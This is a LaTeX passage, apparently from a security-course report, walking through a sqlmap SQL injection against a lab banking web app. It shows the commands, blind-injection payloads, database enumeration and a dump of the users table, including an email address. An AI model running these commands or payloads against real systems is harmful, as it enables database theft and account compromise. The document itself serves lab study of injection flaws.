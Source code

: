 \begin{lstlisting}[caption= First Test with result,label=listing:first_test]
sqlmap -u "host-ip/sc-course/views/transactions/tan_entry.php?transaction_id=14"

.....

GET parameter 'transaction_id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection points with a total of 202 HTTP(s) requests:
---
Place: GET
Parameter: transaction_id
Type: boolean-based blind
Title: MySQL boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (RLIKE)
Payload: transaction_id=14' RLIKE (SELECT (CASE WHEN (6290=6290) THEN 14 ELSE 0x28 END)) AND 'umTL'='umTL

Type: AND/OR time-based blind
Title: MySQL < 5.0.12 AND time-based blind (heavy query)
Payload: transaction_id=14' AND 5296=BENCHMARK(5000000,MD5(0x46744978)) AND 'knKI'='knKI
---
\end{lstlisting}

The next step was to get the name of the database and the tables, as done in Listing \ref{sqlmap-get-tables}

\begin{lstlisting}[caption = Get name and tables of database,label=sqlmap-get-tables]
python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dbs
...
available databases [10]:
[*] banking_development
[*] dvwa
[*] information_schema
[*] mysql
[*] owasp10
[*] performance_schema
[*] phpmyadmin
[*] samurai_dojo_basic
[*] samurai_dojo_scavenger
[*] test


python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --tables -D banking_development

Database: banking_development
[5 tables]
+--------------+
| payments     |
| phinxlog     |
| tan_numbers  |
| transactions |
| users        |
+--------------+
\end{lstlisting}

Now you can dump a table, e.g "users"

\begin{lstlisting}[caption= Dump Table "users", label=listing:dump_table]
	python sqlmap.py -u "192.168.56.101/sc-course/views/transactions/tan_entry.php?transaction_id=14" --dump -D banking_development -T users
	...
	[15:14:07] [INFO] retrieved: id
	[15:14:07] [INFO] retrieved: name
	[15:14:08] [INFO] retrieved: password
	[15:14:09] [INFO] retrieved: email
	[15:14:10] [INFO] retrieved: admin
	[15:14:11] [INFO] retrieved: account_no
	...
	[15:14:14] [INFO] retrieved: 1
	[15:14:14] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:17] [INFO] retrieved: 1
	[15:14:17] [INFO] retrieved: t.srivishnu@gmail.com
	[15:14:19] [INFO] retrieved: 1234567890
	[15:14:20] [INFO] retrieved: 527652613432
	
\end{lstlisting}

